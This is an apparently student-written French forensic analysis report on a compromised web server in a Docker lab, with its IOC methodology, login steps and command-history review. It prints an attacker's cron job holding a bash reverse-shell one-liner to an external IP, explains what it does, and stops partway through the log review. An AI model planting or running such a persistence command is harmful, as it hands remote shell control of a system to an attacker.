 # Rapport d'analyse

## Préparation

Pour intervenir dans ce cas, au préalable il faudra valider certains points de sécurité :

- [x] La station blanche est prête à accueillir l'élément à analyser.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout réseau.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout périphérique externe.

- [x] L'analyse de la machine s'effectue sur un clone virtuel de l'environnement de production.


## Introduction

Le site web Bosch-cyber a été attaqué. l'attaquant aurait récupéré des outils secrets très dangereux. Heureusement l'administration a mis le site eb maintenance. 

###### La mission : déterminer ce qui a été exfiltré par l'attaquant.

## Méthodologie

Dans cette partie seront données les manières d'analyser l'environnement qui hébèrge le site web Bosch-cyber. 

Aussi : un résumé des IOC[^1] sera effectué.

Les points principaux à évaluer sont les suivants : 

* L'historique des commandes passées
* Les logs générés auparavant sur l'activitée menée
* Les accès entrants et sortants sur l'environnement

Les principaux IOC sont alors les suivants :
* Des adresses IP particulières
* Les hash de fichiers malveillants
* des URLs ou noms de domaines suspects

Les IOC trouvés lors de l'analyse seront présentés et expliqué dans la partie suivante.

[^1]: IOC.
*Un indicateur de compromission, en sécurité informatique, est une déviance ou artefact observé sur un réseau ou dans un système d'exploitation qui indique, avec un haut niveau de certitude, une intrusion informatique.*
*source : [wikipedia.fr](https://fr.wikipedia.org/wiki/Indicateur_de_compromission)*



## Résultats

Dans cette partie sont donnés les résultats de l'analyse complète. On y trouve les données récoltées qui ont fait avancer l'enquête.

##### Partie 1 : découverte de l'environnement

Il a fallut se connecter sur la machine (pour cet analyse via docker) :
```
git clone https://gitlab.com/bosch-forensic/bosch-cyber-leak.git
cd bosch-cyber-leak/
sudo apt install docker.io
sudo apt install docker-compose
cat README.md
```
On nous retourne ceci pour se connecter, un identifiant et un mot de passe :

>docker-compose up -d
>ssh b0sch@127.0.0.1 -p 2222
>9mZzpX7KE6sKAP

On rentre alors ces lignes pour accéder à la machine :
```
docker-compose up -d
ssh b0sch@127.0.0.1 -p 2222
9mZzpX7KE6sKAP
```
Nous sommes maintenant rentrés sur l'environnement, la première chose à faire sera alors de vérifier l'historique des commandes. 

Pour cela taper :
```
history
```

dans cette commande :

![Alt text](https://github.com/LuKieru/FORENSIC_TP_BOURGEOIS_LUCAS/blob/main/TP03/img/history.png "cat_hosts_passwd.png")

on voit qu'il y a un fichier .zip qui a été protégé par un mot de passe "bosch_cyber_tools.zip"
ce mot de passe peut etre lu depuis "/tmp/mypassword"


>unzip bosch_cyber_tools.zip 

demande un ==mot de passe==

> cat /etc/hosts

172.18.0.2

>cat /var/www/html/index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance Bosch-Cyber</title>
</head>
<body>
    <p>Sorry for the inconvenience. We'e performing some issues at the moment. We'll be back up shortly!</p>
</body>
</html>
```


>cat .cache/
cat .bash_history 
cat .bash_logout 
cat .bashrc 
cat .profile 
cat .viminfo 
>cat .cache/

rien

>cat crontab

*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'

tache planifiée :
Il s'agit d'une tâche planifiée appelée Cron job, qui est exécutée sur un système Unix.

Le Cron job est configuré pour s'exécuter toutes les minutes (*/1 * * * *). Il exécute la commande /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'.

Cette commande ouvre un shell Bash et redirige son entrée/sortie vers un socket réseau. Plus précisément, elle envoie toute la sortie standard au socket réseau à l'adresse IP 138.66.89.12 et au numéro de port 4444, et elle envoie toute l'entrée standard depuis le socket réseau vers le shell Bash.

Ceci semble être une tentative de créer un shell inversé vers une machine distante à l'adresse IP et au numéro de port spécifiés. Il est important de noter que de telles actions peuvent être illégales et potentiellement nocives. Il est recommandé de enquêter et de remédier à de telles activités sur un système.

>cat access.log | grep "138.66.89.12"

résultat en image
